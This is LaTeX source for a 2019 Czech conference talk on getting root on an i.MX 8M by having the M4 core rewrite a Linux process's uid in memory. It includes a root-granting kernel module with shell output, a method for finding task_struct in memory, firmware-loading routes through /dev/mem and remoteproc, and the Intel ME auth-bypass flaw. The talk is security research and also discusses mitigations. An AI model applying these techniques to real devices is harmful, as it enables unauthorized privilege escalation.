\documentclass{beamer}
 
\usepackage[czech]{babel}
\usepackage[utf8]{inputenc}
\usepackage{minted}

 
 
%Information to be included in the title page:
\title{Jak ukrást roota na hybridním embedded procesoru}
\author{Daniel Trnka}
\institute{}
\date{2019}
 
 
 
\begin{document}
 
\frame{\titlepage}
 
\begin{frame}
\frametitle{Jádra procesoru i.MX~8M}
\centering

\includegraphics{figures/cores.pdf}

\end{frame}

\begin{frame}
\frametitle{Paměťová mapa a kde umístit kód M4 jádra?}
\centering

\includegraphics[width=\linewidth]{figures/memory.pdf}
\end{frame}

\begin{frame}
\frametitle{Cíl}
\begin{itemize}
	\item spustit proces pod normálním uživatelem
	\item najít proces z M4
	\item změnit uid v procesu z M4
	\item získat root konzolu v procesu
\end{itemize}
\flushright

\includegraphics[width=8cm]{figures/goal.pdf}
\end{frame}

\begin{frame}[fragile]
\frametitle{Struktura každého procesu}
\begin{figure}
\begin{minted}{c}
struct task_struct {
  ...
  const struct cred __rcu *real_cred;
  const struct cred __rcu *cred;
  char comm[TASK_COMM_LEN];
  ...
};
\end{minted}
\vspace{1cm}
\begin{minted}{shell-session}
(gdb) p sizeof(struct task_struct)
$1 = 6720
\end{minted}
\end{figure}
\end{frame}

\begin{frame}[fragile]
\frametitle{Struktura cred}
\begin{figure}
\begin{minted}{c}
struct cred {
  ...
  kuid_t uid;   /* real UID of the task */
  kgid_t gid;   /* real GID of the task */
  kuid_t suid;  /* saved UID of the task */
  kgid_t sgid;  /* saved GID of the task */
  kuid_t euid;  /* effective UID of the task */
  kgid_t egid;  /* effective GID of the task */
  kuid_t fsuid; /* UID for VFS ops */
  kgid_t fsgid; /* GID for VFS ops */
  ...
};
\end{minted}
\end{figure}
\end{frame}


\begin{frame}[fragile]
\frametitle{Prvně v jaderném modulu "oficiálně"...}
\begin{figure}
\begin{minted}{c}
#include <linux/module.h>

static int su(char *val, const struct kernel_param *kp) {
	struct cred* new_cred = prepare_creds();
	kuid_t v = {0};
	new_cred->uid = v;
	new_cred->euid = v;
	new_cred->fsuid = v;
	return commit_creds(new_cred);
}
static struct kernel_param_ops ops = {
	.get = &su, // read()
};
// /sys/module/test/parameters/su
module_param_cb(su, &ops, NULL, 0664);
MODULE_LICENSE("GPL v2");
\end{minted}
\end{figure}
\end{frame}


\begin{frame}[fragile]
\frametitle{Funguje?}
\begin{figure}
\begin{minted}{shell-session}
# insmod ./test.ko

$ id
uid=1000(daniel) gid=1000(daniel) groups=1000(daniel)
$ cat /sys/module/test/parameters/su
$ id
uid=1000(daniel) gid=1000(daniel) groups=1000(daniel)
\end{minted}
\end{figure}
\end{frame}

\begin{frame}[fragile]
\frametitle{Funguje!}
\begin{figure}
\begin{minted}{shell-session}
$ read < /sys/module/test/parameters/su
# id
uid=0(root) gid=1000(daniel) groups=1000(daniel)
# ip addr add fd64::1/128 dev eth0
# ip addr show dev eth0 | grep fd
inet6 fd64::1/128 scope global
# passwd -d root
passwd: password expiry information changed.
\end{minted}
\end{figure}
\end{frame}

\begin{frame}[fragile]
\frametitle{Můžeme zjednodušit...}
\begin{figure}
	\begin{minted}{c}
#include <linux/module.h>

static int su(char *val, const struct kernel_param *kp) {
	kuid_t v = {0};
	((struct cred*) current->cred)->uid = v; 
	return 0;
}

static struct kernel_param_ops ops = {
	.get = &su,
};
module_param_cb(su, &ops, NULL, 0664);
MODULE_LICENSE("GPL v2");

	\end{minted}
\end{figure}
\end{frame}

\begin{frame}[fragile]
\frametitle{Nalezení procesu z M4 jádra}
\begin{enumerate}
	\item naivně najít řetězec s názvem procesu v DDR paměti
	\item před začátkem jsou dva validní 64bit ukazatele \texttt{cred}
	\begin{itemize}
		\item zarovnány na násobek 4 \\ \mintinline{c++}{addr & 0b11 == 0}
		\item do virtuální paměti \\ 
		nejvyšší bity jsou 1
	\end{itemize}
	\item dereference ukazatelů
		\begin{itemize}
		\item převod z virtuální na fyzickou adresu
		 \mintinline{c++}{phys = (virt & ~page_offset) + kernel_start}
	\end{itemize}
	\item hodnota uid == 1000
\end{enumerate}
\begin{figure}
	\begin{verbatim}
cred: 40 F5 9B 36 00 80 FF FF  40 F5 9B 36 00 80 FF FF
comm: 68 69 6A 61 63 6B 00 00  30 00 00 00 00 00 00 00
       h  i  j  a  c  k  .  .   0  .  .  .  .  .  .  .
	\end{verbatim}
\end{figure}
\end{frame}

\begin{frame}
\frametitle{Změna uid}

\includegraphics[width=\linewidth]{figures/hexdump.pdf}
\end{frame}

\begin{frame}
\frametitle{Nesdílená DDR paměť jádra}
\begin{itemize}
	\item paměť nastavena jako nesdílená
	\item změna se neprojeví a může být zahozena
	\item v cyklu nastavovat uid pro ``prostřelení'' skrze cache
\end{itemize}
\end{frame}

\begin{frame}
\frametitle{Obnova zapomenutého root hesla}

\includegraphics[width=\linewidth]{figures/demo.jpg}
\end{frame}




\begin{frame}
\frametitle{Jak to dostat do systému?}
\begin{itemize}
	\item paměti jsou volatilní
	\item oficiálně jen ze zavaděče Das U-Boot
		\begin{itemize}
			\item přístup na UART1 konzolu
			\item modifikace proměnných v boot sektoru
		\end{itemize}
	\item neoficiálně pomocí \texttt{/dev/mem}
	\item 2x neoficiálně s remoteproc
		\begin{itemize}
			\item /lib/firmware/rproc-imx-rproc-fw
		\end{itemize}
	\item připojení do M4 knihoven
\end{itemize}
\end{frame}

\begin{frame}[fragile]
\frametitle{1) Nahrání M4 kódu ze zavaděče}
\begin{itemize}
	\item přístup na systém s připojenou konzolou k i.MX
	\item zbytečné pro získání roota z M4 jádra
	\item mužem nabootovat s \texttt{init=/bin/bash}
\end{itemize}

\includegraphics[width=\linewidth]{figures/uboot}
\end{frame}

\begin{frame}[fragile]
\frametitle{2) Neoficiální nahrání z userspace}
\begin{minted}{c}
$ strace ./load
open("/dev/mem", O_RDWR|O_SYNC) = 3
# 32bit registr pro start/stop M4 jádra
mmap(NULL, 4, PROT_READ|PROT_WRITE, MAP_SHARED, 3,
     0x30390000) = 0xffff99593000
# TCM paměť pro M4 kód - 256 KB
mmap(NULL, 262143, PROT_READ|PROT_WRITE, MAP_SHARED, 3,
     0x7e0000) = 0xffff993b4000
\end{minted}
\end{frame}

\begin{frame}[fragile]
\frametitle{2) Neoficiální nahrání z userspace}
\begin{itemize}
	\item suid bit
\begin{minted}{shell-session}
# chmod u+s load
$ ./load root.bin
\end{minted}

	\item ``bezpečněji'' s linux capabilities
	\begin{itemize}
		\item \texttt{CONFIG\_EXT4\_FS\_SECURITY=y} \\
				\texttt{CONFIG\_EXT2\_FS\_XATTR=y}
	\end{itemize}
\begin{minted}{shell-session}
# chmod g+w /dev/mem
# ls /dev/mem
crw-rw---- 1 root kmem 1, 1 Jan 28  2018 /dev/mem
# usermod -a -G kmem daniel
# setcap cap_sys_rawio+ep load
$ ./load root.bin
\end{minted}
\end{itemize}
\end{frame}

\begin{frame}[fragile]
\frametitle{3) Jaderným frameworkem remoteproc}
\begin{itemize}
	\item framework pro sjednocení správy remote jader
	\item nepodporované ze strany NXP
	\item nahrání firmware rootem
\begin{minted}{shell-session}
# cp root.elf /lib/firmware/rproc-imx-rproc-fw
# echo start > \
  /sys/kernel/debug/remoteproc/remoteproc0/state
\end{minted}
	\item missconfiguration - zapisovatelný \texttt{/lib/firmware} nebo jiná cesta
	\begin{itemize}
		\item po restartu se zavede firmware
		\item lze podvrhnout firmware pro SDMA atd
	\end{itemize}

	\item nahrávání obyčejným uživatelem
	\begin{itemize}
		\item vlastní firmware cesta
		\item přístup k debugfs
	\end{itemize}
		
\end{itemize}
\end{frame}

\begin{frame}[fragile]
\frametitle{Ochrana v novějším jádře?}
\begin{itemize}
	\item prohození položek ve struktuře
	\item seed musí být součástí distribuce pro out-of-tree moduly
	\item \texttt{GCC\_PLUGIN\_RANDSTRUCT=y}
	\item Archlinux, Debian zatím nepoužívá
\end{itemize}
\begin{figure}
\begin{minted}{c}
struct task_struct {
  
  randomized_struct_fields_start
  ...
  const struct cred __rcu *real_cred;
  const struct cred __rcu *cred;
  char comm[TASK_COMM_LEN];
  ...
  randomized_struct_fields_end
};
\end{minted}
\end{figure}
\end{frame}

\begin{frame}[fragile]
\frametitle{Podobný problém - Intel management engine}
\begin{itemize}
	\item pro vzdálenou správu počítačů
	\item mikrokontrolér běží i při vypnutém počítači
	\begin{itemize}
		\item Intel Quark x86 CPU
		\item MINIX 3 (porušena licence?)
		\item nutný pro start hlavního procesoru
	\end{itemize}

	\item vlastní eth interface
		\begin{itemize}
			\item normální traffic lze číst
		\end{itemize}
	
	\item plný přístup do paměti
	\item keylogger
	\item Silent Bob is silent, CVE-2017-5689
\begin{minted}{c}
if(strncmp(comp_response, user_response, user_len)) {
  // invalid login!
}
// valid - user_len = 0
\end{minted}
\end{itemize}
\end{frame}

\begin{frame}[fragile]
\frametitle{Uzavřený firmware...}
\begin{itemize}
	\item mohou být vložené backdoors
	\item \begin{minted}{shell-session}
$ find /lib/firmware/ -type f | wc -l
1837
\end{minted}
	\item antiviry nemusí mít přístup
	\item firmware na HDD discích, Wi-Fi

\end{itemize}
\end{frame}

\begin{frame}[fragile]
\frametitle{Děkují za pozornost}
\begin{itemize}
	\item demo \\ \url{https://trnila.eu/rootkit}
	
\end{itemize}
\end{frame}


 
\end{document}
